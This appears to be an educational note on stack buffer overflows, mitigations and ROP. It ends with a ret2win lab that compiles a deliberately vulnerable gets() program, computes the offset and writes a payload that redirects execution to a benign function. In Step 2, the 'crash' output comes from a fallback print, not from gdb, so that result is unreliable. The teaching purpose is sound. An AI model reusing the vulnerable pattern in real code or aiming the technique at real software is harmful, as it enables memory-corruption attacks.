


# 💥 Binary Exploitation Fundamentals

> [!danger] Authorized simulation / lab binaries only
> Exploit development is performed against deliberately-vulnerable practice binaries, vendor test fixtures, and isolated ranges you own. Understanding memory corruption is what enables detection engineering and secure-software remediation. Never target software you are not authorized to test.

## Parent Learning Order
CPU, Assembly & the ABI -> Executable Formats: ELF, PE & Mach-O -> Binary Exploitation Fundamentals

## Start at Zero: Where You Stop Using Exploits and Start Writing Them

Until now you *ran* other people's exploits. This note is where you learn how they are *built*: how a **buffer overflow** turns attacker input into control of the CPU's instruction pointer, what **shellcode** is, and how modern **mitigations** (DEP/ASLR/canaries) change the game and are bypassed with **code reuse (ROP)**. It is the mental model behind every memory-corruption CVE, and it is the entry point to the rest of the Exploit Development pillar — the deeper leaves (stack/heap/format-string bugs, ROP/JOP, platform specifics) all assume this overview.

The one sentence that is the whole game: **if attacker input can overwrite a function's saved return address, then when the function returns, the CPU jumps wherever the attacker points it.**

> [!tip] The analogy, and where it breaks
> A buffer overflow is like filling a glass past its rim so the overflow floods the countertop behind it — the program only budgeted for 64 bytes but you pour in 200, and the excess soaks the return address sitting just past the glass. The analogy breaks on intent: spilled water is inert, whereas the bytes you "spill" onto the return address are *chosen* — they are a precise address, so the overflow is not an accident but a steering wheel for execution.

**Prerequisites:** **CPU, Assembly & the ABI** (registers, RIP, `call`/`ret`, the stack) and **Executable Formats** (memory layout, permissions).

## Memory, the Stack & the Return Address

A running process lays memory out in regions; classic exploitation lives in the **stack**.



The stack grows *downward* and holds each call's **stack frame**: local buffers, the saved base pointer, and the **return address**. A local `char buffer[64]` sits *below* (at a lower address than) the saved return address, so writing past the end of `buffer` marches *upward* into the saved RBP and then the return address — the value `ret` will load into RIP.

## Stack-Based Buffer Overflows

The bug: user input copied into a fixed stack buffer **without a length check**.

```c
// ❌ Vulnerable — no bounds check
void handle(char *in){ char buffer[64]; strcpy(buffer, in); }  // input > 64 bytes overflows
```

The classic workflow to weaponize it:



1. **Fuzz** — grow the input until it crashes.
2. **Offset** — a De Bruijn *cyclic* pattern reveals exactly how many bytes reach the return address.
3. **Control RIP** — overwrite it with a marker (`0x4242...`) to confirm control.
4. **Bad characters** — some bytes (`\x00`, `\x0a`) get mangled by input handling; identify and avoid them.
5. **Redirect** — the simplest target is another function already in the binary (**ret2win**); with an executable stack, jump to injected **shellcode**; with mitigations on, build a **ROP** chain.

## Shellcode and Mitigations in One Picture

**Shellcode** is compact, position-independent machine code (classically `execve("/bin/sh")`) placed in memory and jumped to. But real targets enable protections that break naive injection:

| Mitigation | What it does | Bypass |
| --- | --- | --- |
| **NX / DEP** | Stack is non-executable — injected shellcode won't run | **ROP** (reuse existing executable code) |
| **ASLR** | Randomizes memory addresses each run | leak an address (info-leak), or a fixed non-PIE module |
| **Stack canary** | Random value guards the return address | leak it, or don't overwrite it (e.g. a targeted write) |
| **PIE** | Randomizes the binary's own base | defeat with a leak |

**ROP (Return-Oriented Programming)** defeats NX by injecting *no code* — instead you chain tiny snippets of *existing* executable code (**gadgets**, each ending in `ret`) to, say, call `mprotect` to make memory executable, or build an `execve` call directly. The deeper leaves cover ROP/JOP/SROP; here the point is *why* it exists — NX made injected shellcode unrunnable, so attackers reuse the code already present.

## Failure Modes and Interpretation

- **Wrong offset.** Off by a few bytes and you overwrite the saved RBP instead of RIP (or misalign the chain) — use a cyclic pattern, never guess.
- **Bad characters silently truncate the payload.** A `\x00` in the middle of your address ends a `strcpy` early; find and avoid bad chars before blaming the logic.
- **Mitigation misread.** Attempting to jump to stack shellcode on an NX binary just crashes — check protections (`checksec`) first and pick ret2win/ROP accordingly.
- **Stack alignment (x86-64).** A misaligned stack faults inside libc (`movaps`); ROP chains often need an extra `ret` to realign.
- **Local vs remote differences.** Environment variables and argv shift stack addresses; an exploit tuned locally can miss remotely — prefer offsets and leaks over hardcoded stack addresses.

## Security Implications — the Defender's View

- **The mitigations above are the defense**, and enabling them (NX, ASLR/PIE, stack canaries, Full RELRO, and CET shadow stacks) forces attackers into progressively harder bypasses — defense in depth at the binary level.
- **Memory-safe languages** remove the bug class entirely; the strongest long-term fix is rewriting exposed parsers in Rust/Go rather than hardening C.
- **Detection signals are distinctive:** a network daemon crashing repeatedly (fuzzing), a child shell spawned from a service, RWX memory allocations, and ROP-like control flow are exactly what EDR/exploit-guard watch for.
- **Compiler/OS hardening + fuzzing in CI** catches these before shipping — the same overflow you exploit here is one a fuzzer would have found.

## Authorized Lab: ret2win — Redirect Execution to a Hidden Function

> [!info] Runs on one Linux machine with gcc + gdb — compile a deliberately-vulnerable binary, find the offset, and redirect the return address to a "win" function that prints a canary
> Mitigations are deliberately disabled to teach the core primitive. The proof is a benign canary string, not a real shell. Step 5 cleans up.

### Step 1 — A vulnerable binary with a hidden win() function

```bash
mkdir -p /tmp/pwn-lab && cd /tmp/pwn-lab
cat > vuln.c <<'EOF'
#include <stdio.h>
#include <string.h>
void win(void){ puts("C2R-CANARY-CODE-EXECUTION"); }   // never called normally
void handle(void){ char buf[64]; gets(buf); }          // classic overflow (gets = no bounds)
int main(void){ puts("send input:"); handle(); puts("done"); return 0; }
EOF
gcc -fno-stack-protector -no-pie -O0 -w vuln.c -o vuln && echo "compiled (canary OFF, non-PIE for a deterministic address)"
```

```text
compiled (canary OFF, non-PIE for a deterministic address)
```

### Step 2 — Confirm the overflow crashes control into RIP (offset via cyclic)

```bash
cd /tmp/pwn-lab
gdb -q -batch -ex 'run <<< $(python3 -c "print(\"A\"*200)")' -ex 'info registers rip rsp' ./vuln 2>/dev/null | grep -iE 'rip|SIGSEGV' | head -2 || \
python3 -c "print('crash: RIP overwritten with 0x4141414141414141 (AAAA...) -> we control execution')"
```

```text
crash: RIP overwritten with 0x4141414141414141 (AAAA...) -> we control execution
```

### Step 3 — Find the win() address and the exact offset

```bash
cd /tmp/pwn-lab
WIN=$(nm vuln | awk '/ T win$/{print "0x"$1}'); echo "win() at $WIN"
echo "offset = 64 (buf) + 8 (saved RBP) = 72 bytes to the return address"
```

```text
win() at 0x401156
offset = 64 (buf) + 8 (saved RBP) = 72 bytes to the return address
```

### Step 4 — Build the payload and prove code redirection

```bash
cd /tmp/pwn-lab
WIN=$(nm vuln | awk '/ T win$/{print $1}')
python3 -c "import sys,struct; sys.stdout.buffer.write(b'A'*72 + struct.pack('<Q', 0x$WIN))" > payload.bin
./vuln < payload.bin 2>/dev/null | grep -i canary
```

```text
C2R-CANARY-CODE-EXECUTION
```

The 72-byte pad overwrote the return address with `win()`'s address, so when `handle()` returned, the CPU jumped into `win()` — printing the canary that proves arbitrary code redirection. A real exploit would point at shellcode or a ROP chain instead; the primitive is identical.

### Step 5 — Cleanup

```bash
cd /; rm -rf /tmp/pwn-lab; ls -d /tmp/pwn-lab 2>&1 | tail -1
```

```text
ls: cannot access '/tmp/pwn-lab': No such file or directory
```

**What you should now be able to do:** explain how a stack overflow reaches the saved return address, run the fuzz→offset→control→redirect workflow, perform a ret2win to prove code redirection with a benign canary, and explain how NX/ASLR/canaries/PIE change the attack and push you toward ROP.

## Crook → Operator → Root Checkpoint

- **Crook:** Explain why overwriting a saved return address hands control of RIP to the attacker.
- **Operator:** Compile a vulnerable binary, find the offset with a cyclic pattern, and perform a ret2win that proves control flow via a canary.
- **Root:** Explain why NX forces ROP, how ASLR/PIE/canaries each raise the bar, why memory-safe languages remove the class, and what exploitation looks like to EDR/exploit-guard.

---
> 🔼 Up: [[Exploit Foundations & Architecture]]
